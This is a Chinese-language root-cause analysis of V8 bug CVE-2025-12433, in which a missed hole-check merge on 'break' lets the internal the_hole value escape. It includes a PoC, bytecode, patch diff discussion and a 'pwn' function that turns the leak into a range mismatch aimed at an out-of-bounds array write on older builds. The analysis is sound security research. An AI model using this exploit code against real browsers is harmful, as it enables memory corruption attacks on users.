# CVE-2025-12433 分析

## 基本信息

- **漏洞编号**：CVE-2025-12433
- **官方描述**：V8 中的 inappropriate implementation
- **漏洞类型**：hole-check elision merge 处理错误
- **官方修复提交**：`b371b4f8ba073fb5c054273e8909bee5de574b35`
- **复现命令**：`./out/x64.release_with_symbol/d8 --allow-natives-syntax poc.js`

---

## 漏洞概览

PoC 运行后，按正常语义本来应该抛出 `ReferenceError` 的 `print(x)`，最终却拿到了内部的 `the_hole_value`。这说明一个原本只应该停留在引擎内部、用于表示 TDZ 状态的哨兵值，被直接带到了后续 use 点。

问题的关键也不是“某个 use 点单独漏了一次检查”，而是 hole-check elision 在 merge 时把变量状态判断得过于乐观了。某条路径上建立的“这个变量已经安全”的结论，被错误带到了 merge 之后，最终把本应保留的 hole/TDZ 检查消掉了。后面的 PoC、bytecode、patch 和断点分析，都是围绕这个点展开的。

---

## 背景

**TDZ**

暂时性死区（Temporal Dead Zone, TDZ）指的是：在代码块中，用 `let` 或 `const` 声明的变量，在真正执行到声明语句之前，虽然 binding 已经存在，但还没有被初始化；此时如果访问它，会抛出 `ReferenceError`，而不是返回 `undefined`。

```js
function test() {
  console.log(a);   // ReferenceError: Cannot access 'a' before initialization
  let a = 10;
}
test();
```

执行逻辑可以概括为：

1. 编译阶段发现 `let a`
2. 为 `a` 建立 lexical binding
3. 进入作用域后，`a` 已存在但未初始化
4. 在执行到 `let a = 10` 之前访问 `a`，就会命中 TDZ 并抛错

与之相对，`var` 不会有 TDZ：

```js
function test() {
  console.log(a);   // undefined
  var a = 10;
}
test();
```

原因是：

1. `var` 会变量提升
2. 进入作用域时自动初始化为 `undefined`
3. 因此不会出现“已存在但未初始化”的状态

**the_hole**

在 V8 处理未初始化 lexical binding 时，TDZ 通常不是用 `undefined` 表示，而是用一个内部哨兵值：`the_hole`。可以把它理解成一种“槽位已经存在，但当前还不能按正常 JavaScript 值来使用”的特殊标记。对于 `let` 变量来说，在真正执行到初始化语句之前，槽位里放的并不是普通 JavaScript 值，而更接近于：

> 这个槽位当前保存的是 `the_hole`，后续如果读到它，就应该先做 hole/TDZ 检查，并抛出 `ReferenceError`。

这一点可以从一个更容易观察的例子看出来。下面这个数组字面量最开始只有一个元素，但当直接写入 `arr[2]` 以后，中间空出来的位置不会被填成 `undefined`，而是会保留为 hole：

```js
let arr = [1.2];
arr[2] = 2.2;
%DebugPrint(arr);
```

对应的 `DebugPrint` 输出里，可以看到 elements backing store 中的空洞位置显示为 `<the_hole>`：



*图：数组空洞在 `DebugPrint` 里会显示为 `<the_hole>`。这里用它只是说明 V8 内部确实存在统一的 hole 哨兵概念。*

这里要注意，数组元素里的 hole 和 TDZ 变量虽然语义层面不是一回事，但它们都体现了同一个事实：某个位置“看起来有槽位”，但当前并没有一个可直接参与正常 JavaScript 语义的值。

本漏洞最关键的现象，就是这个本不该暴露给 JavaScript 正常执行路径的 `the_hole`，最终被直接传给了 `print`。

---

## PoC

```js
function trigger(cond) {
  {
    target: switch(1) {
      case 1:
        do {
          if (cond) break target;
        } while((x=1) && false);
        break;
      default:
        x=1;
	    }
	    print(x);   // 按语义应抛 ReferenceError，但漏洞版本会把 hole 直接传下去
	    let x;
	  }
}
trigger(true);
```

当 `trigger(true)` 执行时，流程会在 `case 1` 内部命中：

```js
if (cond) break target;
```

于是控制流直接跳出整个带标签的 `switch`。这意味着：

- `while ((x = 1) && false)` 这条路径不会真正完成初始化
- `default: x = 1` 也不会执行
- 到 `print(x)` 时，`x` 按语义仍应处于 TDZ 对应的 hole 状态

**运行结果**

```bash
print(..., <the_hole_value>)
```

这说明传给 `print` 的参数不是正常 JavaScript 值，而是内部哨兵值 `the_hole`。如果 `print(x)` 前还保留着正常的 hole/TDZ 检查，那么读取 `x` 时应该先发现它仍然是 hole，并直接抛出 `ReferenceError`，而不是继续执行到 `print(the_hole)`。

---

## Bytecode 分析

下面这段是 `trigger` 函数的核心 bytecode，只保留了和分析直接相关的部分，并补上了位置注释：

```bash
# a0: cond
# r0: x 对应的 lexical 槽位
# r1: 临时寄存器 / switch 比较值 / print 函数对象

0  : LdaTheHole
1  : Star0

# x 初始为 the_hole，对应 let x 在初始化前的 TDZ 状态

2  : LdaSmi [1]
4  : Star1
5  : LdaSmi [1]
7  : TestEqualStrict r1, [0]
10 : JumpIfTrue [4] -> 14
12 : Jump [31] -> 43

# @14: case 1
14 : Ldar a0
16 : JumpIfToBooleanFalse [4] -> 20
18 : Jump [37] -> 55

# @18: if (cond) break target;
# 如果 cond 为真，直接跳到 @55，也就是 merge 后的 print(x) use 点

# @20: cond == false 时，继续走 while ((x = 1) && false)
20 : LdaSmi [1]
22 : Star1
23 : Ldar r0
25 : ThrowReferenceErrorIfHole [0]
27 : Mov r1, r0
30 : Ldar r1
32 : JumpIfToBooleanFalse [9] -> 41
34 : LdaFalse
35 : JumpIfFalse [6] -> 41
37 : JumpLoop [23], [0], [1] -> 14
41 : Jump [14] -> 55

# @23 / @25: 在 (x = 1) 这条路径内部，仍然会对 x 做 ThrowReferenceErrorIfHole
# 说明路径内部访问并没有丢失 TDZ / hole 检查

# @43: default
43 : LdaSmi [1]
45 : Star1
46 : Ldar r0
48 : ThrowReferenceErrorIfHole [0]
50 : Mov r1, r0
53 : Ldar r1

# @46 / @48: default: x = 1 这条路径里同样保留了 ThrowReferenceErrorIfHole

# @55: merge 后的 use 点，对应 print(x)
55 : LdaGlobal [1], [2]
58 : Star1
59 : CallUndefinedReceiver1 r1, r0, [4]

# @55: 取出全局 print
# @59: 直接把 r0 作为参数传给 print
# 这里没有再次出现 ThrowReferenceErrorIfHole
# 也就是说，merge 后的 print(x) use 点把仍可能为 hole 的 r0 直接传了下去

63 : LdaUndefined
64 : Star0
65 : LdaUndefined
66 : Return
```

从这段 bytecode 可以直接看出，`x` 在函数入口处就被初始化成了 `the_hole`，说明 V8 在字节码层确实用 hole 来表示 `let x` 声明前的 TDZ 状态。与此同时，`(x = 1)` 和 `default: x = 1` 这两条路径内部都还保留着 `ThrowReferenceErrorIfHole`，说明路径内部的检查并没有丢。真正出问题的是 merge 之后的 `print(x)` use 点：当 `cond == true` 时，控制流会从 offset 18 直接跳到 offset 55，绕过中间所有路径，而 offset 55 到 59 之间只剩下取出全局 `print` 并直接调用 `CallUndefinedReceiver1 r1, r0, [4]`，中间没有再对 `r0` 做 `ThrowReferenceErrorIfHole`。

---

## 根因分析

**正常语义**

`let x;` 声明之前，`x` 处于 TDZ。V8 内部会用 `the_hole` 来表示这一状态。按照正常语义，访问 `x`，或者将 `x` 用作某个表达式、某次调用的参数，都应该先经过 hole/TDZ 检查；如果 `x` 仍为 hole，就应当抛出 `ReferenceError`。

**真实执行路径**

在 `trigger(true)` 时，执行流会进入 `case 1`，读取 `cond`，随后命中 `if (cond) break target;` 并直接跳出整个带标签的 `switch`。因此，`while ((x = 1) && false)` 不会真正完成初始化路径，`default: x = 1` 也不会执行。换句话说，走到 `print(x)` 时，`x` 实际仍然是 hole。

**为什么问题不在路径内部**

从 bytecode 可以看到，无论是 `(x = 1)` 路径还是 `default` 路径，访问 `x` 时都还带着：

```text
ThrowReferenceErrorIfHole
```

这说明漏洞不是“所有对 `x` 的访问都丢失了检查”，而是更细粒度地表现为：路径内部的访问点仍有检查，但 merge 之后的 use 点没有检查。

**patch 的修复位置**

结合官方修复提交 `b371b4f8ba073fb5c054273e8909bee5de574b35`，diff 可以分成两层来看。

第一层是状态合并机制本身。patch 给 `HoleCheckElisionMergeScope` 增加了 `MergeBranch()`：



*图：`MergeBranch()` 会把当前分支的 `hole_check_bitmap_` 并入 merge 结果，核心语义是“只保留所有分支都确认安全的变量”。*

这一层最关键的是：

```cpp
void MergeBranch(BytecodeGenerator* generator) {
  merge_value_ &= generator->hole_check_bitmap_;
}
```

这里的意思不是“某一条分支安全就够了”，而是把当前分支的 `hole_check_bitmap_` 按位与进 `merge_value_`，也就是只保留所有分支都认可安全的变量。换句话说，merge 后还能继续省掉 hole check 的变量，必须是各条路径取交集之后剩下的那一批。

第二层是 12433 的具体修复落点。patch 把 `break` 路径显式接入到了这套 merge 机制里：



*图：`CMD_BREAK` 分支在跳出前先执行 `merge_elider_.MergeBranch(generator())`，避免 break 路径被漏算。*

这里最关键的一行是：

```cpp
merge_elider_.MergeBranch(generator());
```

它出现在 `CMD_BREAK` 分支里，说明修复的关键不是“在读取点补一个检查”，而是：

> **在 `break` 提前跳离当前结构之前，先把当前 break 路径上的 hole-check 状态并入 merge 结果。**

**调试验证**

为了确认 `break` 确实走到了 patch 涉及的路径，我在漏洞版本的 `BytecodeGenerator::ControlScopeForBreakable::Execute` 上下了断点。PoC 运行后可以直接命中：



*图：漏洞版本里 `Execute()` 命中了 `CMD_BREAK` 分支，但此时还没有把当前路径上的 hole-check 状态并入 merge。*

从这张图可以直接看到：

- 当前命中的函数是 `BytecodeGenerator::ControlScopeForBreakable::Execute`
- `command` 的值就是 `CMD_BREAK`
- 当前源码位置已经进入了 `switch (command)` 的 `case CMD_BREAK:` 分支

也就是说，漏洞版本在处理 `break` 时，直接跳离当前结构，并没有额外把当前 break 路径上的 hole-check 状态做 merge；修复版本则在跳走前先执行 `merge_elider_.MergeBranch(generator())`。


---

## 复现版本选择与 Hole 结构变化

如果后面还想继续往利用走，实验版本就不能只看 12433 这个 patch 本身，还得同时看 `Hole` 内部表示在版本演进里的变化。后续这一节默认讨论的是 `24ab048` 之前的旧版 `Hole` 布局。

这一点可以直接从 `src/objects/hole.h` 的结构变化看出来。旧版本里的 `Hole` 仍然是一个带对象语义的 `HeapObject`，并且保留了和 raw numeric value 相关的字段与布局：



*图：旧版 `Hole` 的示意布局。这里最值得注意的是 `+0x8` 处仍然存在可被后续当作 `length` 读取的字段。*

对应的运行时 `DebugPrint` 结果里，也能看到当时的 `HOLE_TYPE` 实例大小仍然是 12 bytes：



*图：旧版 `HOLE_TYPE` 的 `instance size` 仍然是 12 bytes，对应上面的旧布局。*

而在 `24ab048` 这个提交中，V8 对 `Hole` 做了一轮比较明显的重构，提交说明里已经直接写明：`[hole] Add strict hole subtypes`，并且 *make Hole a trivial HeapObjectLayout type*：



*图：`24ab048` 的提交说明直接点出了两件事：引入 strict hole subtype，并把 `Hole` 改成 trivial `HeapObjectLayout`。*

从这次 diff 可以直接看到，`Hole` 的基类从旧版的 `HeapObject` 变成了 `HeapObjectLayout`，旧版里与 `HeapNumber` 兼容相关的结构和字段被移除，同时引入了 strict hole subtype 机制：



*图：`hole.h` 的关键 diff。旧版 `Hole` 结构被收紧后，后面那种沿 `length` 偏移继续放大的方法就不能直接照搬了。*

在这次改动之后，运行时 `DebugPrint` 里对应的 `HOLE_TYPE` 实例大小也变成了 4 bytes：



*图：新版 `HOLE_TYPE` 的 `instance size` 已经变成 4 bytes，说明对象布局和旧版不在同一个前提上了。*

这里要强调的是，问题不在于 12433 本身把 `Hole` 结构改掉了，而在于从 `24ab048` 开始，`Hole` 的内部表示已经变了。旧版本里围绕 hole 布局建立的利用思路，到这个版本之后就不能直接沿用。所以如果后面还要继续往下做，默认前提就是：**实验版本最好位于 `24ab048` 之前。**


## 从 Hole 泄漏到 OOB 的放大思路

利用思路是：把 hole 塞进一个看起来应该是正常字符串的地方，然后借 `.length`、`Math.sign` 和几步很短的算术，把“编译器以为的范围”和“真实执行时的范围”一点点拉开，最后把这个分歧传到数组索引和 length 更新上。

这一段不是直接拿 `the_hole` 当最终利用结果，而是把它当成一个脏输入源。只要这个脏输入能混进 TurboFan 原本按“正常对象语义”建模的路径里，后面就有机会把它放大成数组状态不一致，并在公开旧版链路里进一步落到 OOB。

利用流程图：



*图：放大链可以先粗看成 5 步：hole 泄漏，伪装成字符串长度读取，制造 range mismatch，带偏 length 更新，最后落到 OOB。*

具体到这里，`o.s` 会被优化器当成字符串看待，所以 `o.s.length` 对应的节点会沿着“字符串长度非负”这个前提去建类型和范围信息；但如果 `trigger` 为真，实际流进去的却是前面拿到的 `hole`。这样后面的 `len -> sign -> i -> idx` 就自然分成了两套值域：

- 一套是优化器根据“正常字符串长度”推出来的范围。
- 一套是 `hole` 实际参与运算之后的真实范围。

只要最后把这两套范围的分歧传到元素写入位置，编译器就有可能按错误的索引信息去更新数组 length，从而把一个原本很小的数组推进到不一致状态。这里的重点是“存在可被继续放大的状态分歧”，而不是声称 12433 在所有版本上都会自动落到同一条 OOB 路径。

下面这段代码做的就是这件事。前半段还是 12433 自己的 hole 泄漏，后半段则是借这种放大思路，把 hole 喂给 `.length` 然后逐步放大。



*图：这条思路依赖旧版布局里 `String` 和 `Hole` 在 `+0x8` 偏移上都能被当作 `length` 读取；`24ab048` 之后这个前提就不成立了。*

```js
function pwn(trigger,cond) {
    var hole;
    {
        target: switch (1) {
            case 1:
                do {
                    if (cond) break target;
                } while ((x = 1) && false);
                break;
            default:
                x = 1;
        }
    //% DebugPrint(x);
        hole = x;
    
        let x;
    }

    let o = {};
//                                                     both:  (Hole | HeapConstant)
//    let len = o.s.length;                            infer: (0, 535870888), actual: (-524289, 535870888)
//    let sign = Math.sign(len);                       infer: (0, 1),         actual: (-1, 1)
//    let i1 = 2 - (sign + 1);                         infer: (0, 1),         actual: (0,  2)
//    let i2 = 5 - (i1 + 4) >> 1;                      infer: (0, 0),         actual: (-1, 0)
//    let i3 = 1 * i2 + 1;                             infer: (1, 1),         actual: (0,  1)
//    let i4 = i3 * 200;                               infer: (200, 200),     actual: (0,  200)
    o.s = trigger ? hole : "not the hole";
    var s = 2 - (Math.sign(o.s.length) + 1);
    var i = 2 * ((5 - (s + 4)) >> 1) + 2;
    let idx = i * 200;
/*
    inferred:
    --------------------------------------
    let sign = 1;                     // 1                    = 1 
    let i1 = 2 - (sign + 1);          // 2 - (1+1)            = 0     
    let i2 = 5 - (i1 + 4) >> 1;       // 5 - (0 + 4) >> 1     = 0
    let i3 = 1 * i2 + 1;              // 1 * 0 + 1            = 1     
    let i4 = i3 * 200;                // 1 * 200              = 200
    
    actual:
    --------------------------------------
    let sign = -1;                    // -1                    = -1
    let i1 = 2 - (sign + 1);          // 2 - (-1 + 1)          = 2     
    let i2 = 5 - (i1 + 4) >> 1;       // 5 - (2 + 4) >> 1      = -1     
    let i3 = 1 * i2 + 1;              // 1 * -1 + 1            = 0     
    let i4 = i3 * 200;                // 0 * 200               = 0
    
*/
    let arr = new Array(8);
    let victim_arr = [{}];
    arr[0] = 13.37;

    arr[idx] = 13.37;
    return [arr, victim_arr];


}

for (var i = 0; i < 0x100000; i++) {
    pwn(false,true);
    pwn(false,true);
    pwn(false,true);
    pwn(false,true);
}
```


*图：控制流上最重要的一点只有一个: `break target` 让 `x` 保持为 hole，并把这个状态带到后面的 use 点。*



*图：数据流上则是把 hole 一路送进 `.length -> Math.sign -> idx` 这条计算链。*

### 范围不一致的传播

这段代码关键不在于“把 `hole` 塞进对象属性”本身，而在于要让它以一种看起来很正常的方式继续流下去。对优化器来说，`o.s.length` 像是一次普通的字符串长度读取；但在 `trigger == true` 这条路径里，`o.s` 实际上是前面泄漏出来的 `hole`。于是从 `length` 开始，推断值域和真实值域就分叉了。

在正常字符串路径上，`.length` 不可能为负数，所以优化器会把它压到非负区间；但在 `hole` 路径上，读出来的值却可能落到包含负数的范围里。`Math.sign` 和后面的几步短算术，做的都是同一件事：把这个差异一步步放大，直到优化器把 `idx` 看成固定的大索引，而真实执行时它又仍然可能掉回 0。

